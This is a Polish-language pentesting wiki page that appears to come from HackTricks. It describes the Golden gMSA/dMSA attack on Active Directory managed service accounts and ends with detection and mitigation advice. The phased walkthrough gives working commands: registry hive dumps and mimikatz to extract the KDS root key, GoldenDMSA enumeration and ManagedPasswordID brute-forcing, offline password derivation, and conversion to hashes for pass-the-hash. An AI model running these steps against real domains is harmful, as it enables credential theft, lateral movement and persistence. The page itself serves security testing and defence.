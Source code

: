 # Złoty gMSA/dMSA Atak (Offline Derywacja Haseł Kont Zarządzanych)

{{#include ../../banners/hacktricks-training.md}}

## Przegląd

Windows Managed Service Accounts (MSA) to specjalne podmioty zaprojektowane do uruchamiania usług bez potrzeby ręcznego zarządzania ich hasłami. Istnieją dwa główne rodzaje:

1. **gMSA** – grupowe Konto Usługi Zarządzanej – może być używane na wielu hostach, które są autoryzowane w jego atrybucie `msDS-GroupMSAMembership`.
2. **dMSA** – delegowane Konto Usługi Zarządzanej – (w wersji beta) następca gMSA, oparty na tej samej kryptografii, ale pozwalający na bardziej szczegółowe scenariusze delegacji.

Dla obu wariantów **hasło nie jest przechowywane** na każdym Kontrolerze Domeny (DC) jak zwykły NT-hash. Zamiast tego każdy DC może **wyprowadzić** aktualne hasło na bieżąco z:

* Klucza **KDS Root Key** w całym lesie (`KRBTGT\KDS`) – losowo generowany sekret o nazwie GUID, replikowany do każdego DC w kontenerze `CN=Master Root Keys,CN=Group Key Distribution Service, CN=Services, CN=Configuration, …`.
* **SID** docelowego konta.
* **ManagedPasswordID** (GUID) na poziomie konta, znajdującego się w atrybucie `msDS-ManagedPasswordId`.

Derywacja to: `AES256_HMAC( KDSRootKey , SID || ManagedPasswordID )` → 240-bajtowy blob, który jest ostatecznie **zakodowany w base64** i przechowywany w atrybucie `msDS-ManagedPassword`. Nie jest wymagany żaden ruch Kerberos ani interakcja z domeną podczas normalnego użycia hasła – host członkowski wyprowadza hasło lokalnie, o ile zna trzy wejścia.

## Złoty gMSA / Złoty dMSA Atak

Jeśli atakujący może uzyskać wszystkie trzy wejścia **offline**, może obliczyć **ważne aktualne i przyszłe hasła** dla **dowolnego gMSA/dMSA w lesie**, nie dotykając ponownie DC, omijając:

* logi wstępnej autoryzacji Kerberos / żądania biletów
* audyt odczytu LDAP
* interwały zmiany haseł (mogą je wstępnie obliczyć)

Jest to analogiczne do *Złotego Biletu* dla kont usługowych.

### Wymagania wstępne

1. **Kompromitacja na poziomie lasu** **jednego DC** (lub Administratora Enterprise). Dostęp `SYSTEM` jest wystarczający.
2. Możliwość enumeracji kont usługowych (odczyt LDAP / brute-force RID).
3. Stacja robocza .NET ≥ 4.7.2 x64 do uruchomienia [`GoldenDMSA`](https://github.com/Semperis/GoldenDMSA) lub równoważnego kodu.

### Faza 1 – Ekstrakcja Klucza KDS Root

Zrzut z dowolnego DC (Kopia Cienia Woluminu / surowe hives SAM+SECURITY lub zdalne sekrety):
```cmd
reg save HKLM\SECURITY security.hive
reg save HKLM\SYSTEM  system.hive

# With mimikatz on the DC / offline
mimikatz # lsadump::secrets
mimikatz # lsadump::trust /patch   # shows KDS root keys too
```
Ciąg base64 oznaczony jako `RootKey` (nazwa GUID) jest wymagany w późniejszych krokach.

### Faza 2 – Enumeracja obiektów gMSA/dMSA

Pobierz przynajmniej `sAMAccountName`, `objectSid` i `msDS-ManagedPasswordId`:
```powershell
# Authenticated or anonymous depending on ACLs
Get-ADServiceAccount -Filter * -Properties msDS-ManagedPasswordId | \
Select sAMAccountName,objectSid,msDS-ManagedPasswordId
```
[`GoldenDMSA`](https://github.com/Semperis/GoldenDMSA) implementuje tryby pomocnicze:
```powershell
# LDAP enumeration (kerberos / simple bind)
GoldendMSA.exe info -d example.local -m ldap

# RID brute force if anonymous binds are blocked
GoldendMSA.exe info -d example.local -m brute -r 5000 -u jdoe -p P@ssw0rd
```
### Faza 3 – Zgadnij / Odkryj ManagedPasswordID (gdy brakuje)

Niektóre wdrożenia *usuwają* `msDS-ManagedPasswordId` z odczytów chronionych przez ACL.  
Ponieważ GUID ma 128 bitów, naiwne brute force jest niepraktyczne, ale:

1. Pierwsze **32 bity = czas epoki Unix** utworzenia konta (rozdzielczość minutowa).  
2. Następnie 96 losowych bitów.

Dlatego **wąska lista słów dla każdego konta** (± kilka godzin) jest realistyczna.
```powershell
GoldendMSA.exe wordlist -s <SID> -d example.local -f example.local -k <KDSKeyGUID>
```
Narzędzie oblicza kandydatów na hasła i porównuje ich blob base64 z rzeczywistym atrybutem `msDS-ManagedPassword` – dopasowanie ujawnia poprawny GUID.

### Faza 4 – Offline Obliczanie Hasła i Konwersja

Gdy ManagedPasswordID jest znane, ważne hasło jest na wyciągnięcie ręki:
```powershell
# derive base64 password
GoldendMSA.exe compute -s <SID> -k <KDSRootKey> -d example.local -m <ManagedPasswordID>

# convert to NTLM / AES keys for pass-the-hash / pass-the-ticket
GoldendMSA.exe convert -d example.local -u svc_web$ -p <Base64Pwd>
```
Wynikowe hashe mogą być wstrzykiwane za pomocą **mimikatz** (`sekurlsa::pth`) lub **Rubeus** w celu nadużycia Kerberos, co umożliwia ukryty **lateral movement** i **persistence**.

## Wykrywanie i łagodzenie

* Ogranicz możliwości **DC backup i odczytu rejestru** do administratorów Tier-0.
* Monitoruj tworzenie **Directory Services Restore Mode (DSRM)** lub **Volume Shadow Copy** na DC.
* Audytuj odczyty / zmiany `CN=Master Root Keys,…` oraz flag `userAccountControl` kont serwisowych.
* Wykrywaj nietypowe **base64 password writes** lub nagłe ponowne użycie haseł serwisowych na różnych hostach.
* Rozważ konwersję gMSA o wysokich uprawnieniach na **klasyczne konta serwisowe** z regularnymi losowymi rotacjami, gdy izolacja Tier-0 nie jest możliwa.

## Narzędzia

* [`Semperis/GoldenDMSA`](https://github.com/Semperis/GoldenDMSA) – implementacja referencyjna używana na tej stronie.
* [`mimikatz`](https://github.com/gentilkiwi/mimikatz) – `lsadump::secrets`, `sekurlsa::pth`, `kerberos::ptt`.
* [`Rubeus`](https://github.com/GhostPack/Rubeus) – pass-the-ticket przy użyciu pochodnych kluczy AES.

## Odniesienia

- [Golden dMSA – obejście uwierzytelniania dla delegowanych zarządzanych kont serwisowych](https://www.semperis.com/blog/golden-dmsa-what-is-dmsa-authentication-bypass/)
- [Repozytorium Semperis/GoldenDMSA na GitHubie](https://github.com/Semperis/GoldenDMSA)
- [Improsec – atak zaufania Golden gMSA](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-5-golden-gmsa-trust-attack-from-child-to-parent)

{{#include ../../banners/hacktricks-training.md}}
